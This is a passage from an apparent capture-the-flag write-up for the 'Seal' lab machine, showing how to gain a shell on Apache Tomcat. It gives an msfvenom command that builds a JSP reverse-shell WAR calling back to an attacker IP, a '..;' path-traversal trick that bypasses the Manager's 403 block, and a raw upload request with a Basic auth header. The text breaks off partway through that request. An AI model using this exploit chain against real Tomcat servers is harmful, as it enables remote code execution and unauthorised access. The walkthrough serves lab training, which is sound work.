 ![](images/Pasted%20image%2020211002004301.png)

From this interface, generate and upload a `jar` reverse shell payload.

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.164 LPORT=443 -f war -o tgihf.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: tgihf.war
```

Attempting to upload the payload through the web interface will fail because it will attempt to upload directly to `/manager/html/upload`, which will return a 403 Forbidden. Intercept the request in BurpSuite and change the URL path to `/manager/status/..;/html/upload`.
The request:

```http
POST /manager/status/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=6E3CAE279F23B9F275063F93F4A55A35 HTTP/1.1
Host: seal.htb
Cookie: JSESSIONID=59E060457FEB6244E68C567F604A8FF7; JSESSIONID=node0d7c9ladkjhtf6svhfg13supr21900.node0
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------414677531440330725221748963814
Content-Length: 1341
Origin: https://seal.htb
Dnt: 1
Authorization: Basic dG9tY2F0OjQyTXJIQmYqejh7WiU=
Referer: https://seal.htb/manager/status/..;/html
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

-----------------------------414677531440330725221748963814
Content-Disposition: form-data; name="deployWar"; filename="tgihf.war"
Content-Type: application/x-webarchive
```